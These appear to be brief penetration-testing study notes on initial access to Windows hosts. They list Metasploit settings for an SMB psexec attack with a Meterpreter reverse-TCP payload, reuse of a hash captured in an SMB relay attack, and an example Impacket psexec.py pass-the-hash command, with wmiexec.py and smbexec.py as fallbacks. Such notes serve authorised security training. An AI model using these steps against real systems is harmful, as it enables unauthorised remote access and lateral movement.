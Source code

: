 #intialAccess

msfconsole
	need to set the following parameters to work 
		rhosts
		smbdomain
		smbuser
		smbpass
		**also changed the payload to x64 system
			ex - windows/x64/meterpreter/reverse_tcp
		can use the hash
		use the hash we got in the SMBrelay attack 
			used the entire hash 
psexec.py (domain/user):'<PasswordL>'@<machine IP>
	can also add without password and it will prompt to type
	can also use a hash
		e x psexec.py admin@192.168.88.101 -hashes <Hash>
wmiexec.py
	if psexec.py doesnt work
smbexec.py
	if psexec.py doesnt work

